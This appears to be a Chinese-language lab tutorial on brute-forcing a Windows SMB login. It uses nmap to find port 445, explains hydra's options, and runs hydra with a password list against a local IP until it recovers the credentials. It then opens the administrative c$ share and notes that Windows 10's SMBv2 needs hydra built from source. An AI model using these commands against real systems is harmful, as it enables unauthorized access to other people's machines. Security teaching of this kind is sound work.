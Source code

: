 
使用 nmap 扫描 SMB 服务端口 445

```
┌──(root㉿Kali-24)-[~]
└─# nmap 192.168.1.71 -p 445
```

> 445 端口需要开启

打开 hydra ,查看参数

```
┌──(root㉿Kali-24)-[~]
└─# hydra
```

| 操作    | 描述                                                    |
| ------- | ------------------------------------------------------- |
| -I      | 指定单个用户名称                                        |
| -L      | 指定用户名称字典                                        |
| -p      | 指定单个密码                                            |
| -P      | 指定密码字典                                            |
| -S      | 指定端口                                                |
| -vV     | 显示详细的执行过程                                      |
| -t `16` | 指定线程数（默认 16个，线程数过多容易出现错误）         |
| -e nsr  | n（空密码）s（用户名作为密码）r（将用户名反转作为密码） |

使用 hydra 爆破 445端口（协议://IP）

```
┌──(root㉿Kali-24)-[~]
└─# hydra -l hello -P hello.txt smb://192.168.1.71 -vV
```

```
[445][smb] host: 192.168.1.71   login: hello   password: hello
```

> 得到密码 hello

在其它主机的运行窗口执行

```
\\192.168.1.71\c$
```

> 输入用户名和密码登录即可

**Windows 10**

切换至 Administrator 并设置密码

> windows 10 默认 smb 版本为 smb v2，smb 版本发展至今有 smb v1 v2 v3 版本，hydra 工具默认支持 smb v1，如果需要爆破 windows 10 的 smb 服务则需要下载源码进行编译安装。
